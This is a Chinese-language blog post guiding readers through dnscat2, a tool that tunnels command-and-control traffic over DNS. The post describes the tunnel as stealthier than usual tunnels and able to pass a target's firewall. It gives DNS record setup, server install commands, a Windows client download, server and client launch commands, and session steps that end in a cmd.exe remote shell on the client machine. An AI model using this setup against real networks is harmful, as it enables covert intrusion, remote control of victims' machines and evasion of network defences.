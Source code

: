 ```yaml
---
layout:     post                                    # 使用的布局（不需要改）
title:       dnscat2                          # 标题 
subtitle:      Dnscat2指南                  #副标题
date:       2020-06-08                          # 时间
author:     cx                                          # 作者
header-img:     #这篇文章标题背景图片
header-mask:    # 博文页面上端的背景图片的亮度，数值越大越黑暗
catalog: true                                           # 开启catalog，将在博文侧边展示博文的结构
istop: false              # 设为true可把文章设置为置顶文章
tags:
    - dnscat2      #标签
---
```

DNS原理
dns是域名系统,就是把域名(例如:cx-reboot.github.io)转换成相对的ip地址(例如:185.199.109.153)进行解析.就是方便好记.类似写信时候家庭地址和邮政编码的关系.


dnscat2可以通过dns协议创建c&c隧道,比常见的tcp/http等协议的隧道更隐蔽.而且实际情况下对方防火墙进行拦截,只有dns流量能出来正常通讯.

dns需要开启服务器53端口,协议是UDP.

开始安装之前,你需要准备好域名,设置一个A记录指向你的服务器地址,再设置一个ns记录指向你的之前设置的子域名
例如:
域名      类型    记录值
ns.cx.com   A     123.45.678.90	//设置ns.cx.com解析到ip 123.45.678.90
dns.cx.com  NS    ns.cx.com     //设置dns.cx.com解析到域名 ns.cx.com

先给出官网github地址:
https://github.com/iagox86/dnscat2

服务端安装

git clone https://github.com/iagox86/dnscat2.git

apt-get -y install ruby-dev git make g++

cd dnscat2/server/

bundle install

客户端有exe格式和powershell两个版本,为了方便,这里是使用exe格式.
下载地址:
https://downloads.skullsecurity.org/dnscat2/

使用方法

服务器创建好后,查看一下帮助(--help)
-h，--h占位符以寻求帮助
  -v，--version获取dnscat版本
  -d，--dns = <s>启动DNS服务器。可以选择通过多个逗号分隔的名称=值对（主机，端口,域）。例如，'-dns host = 0.0.0.0，port = 53531，domain = skullseclabs.org'-“域”可以多次传递
  
  -n，--dnshost = <s>要侦听的DNS IP地址[不建议使用]（默认值：0.0.0.0）
  
  -s，--dnsport = <i>在[不推荐使用]上侦听的DNS端口（默认值：53）
  
  -p，--passthrough = <s>未处理的请求发送到上游DNS服务器，host：port（默认值：）
  
  -e，--security = <s>设置安全级别； “开放”让客户 选择; 'encrypted'需要加密（默认为--secret没有设置）; “已认证”要求加密和身份验证（如果--secret，则为默认值设置）
  
  -c，--secret = <s>预共享的机密，传递给客户端和服务器以防止中间人攻击
  
  -a，--auto-command = <s>发送给每个连接的客户端（默认值：）
  
  -u，--auto-attach自动附加到新会话
  
  -k，--packet-trace显示传入/传出的dnscat数据包
  
  -r，--process = <s>如果已设置，则为每个传入运行给定进程控制台/执行会话，并提供标准输入/标准输出。这个
有安全隐患。

  -i，--history-size = <i>窗口将要记录的历史行数保持（默认值：1000）
  
  -l，--listener = <i>调试：在给定端口上启动侦听器驱动程序
  
  -f，--firehose如果设置，则所有输出都转到stdout而不是放在窗户里。
  
  --cache，--no-cache如果设置，则在服务器上启用缓存。 （默认：真正）
  
  --help显示此消息
  
  
基础用法

server
ruby dnscat2.rb dns.cx.com --secret=123456

client
dnscat2.exe dns.cx.com  --secret=123456

获得会话后
sessions查看全部会话
session -i id 进入会话
输入windows得到第二个会话(或者输入shell)
ctrl+z 退出当前会话
sessions 查看所有会话
会发现多了一个会话,开头是cmd.exe,进入会话,执行命令.ok!

其他功能参考官网文档和帮助

总结:
实际操作,常规隧道基本不好使,dns/icmp是主流,但是还是有很多流量监测工具可以识别.一切根据实际情况灵活运用.



















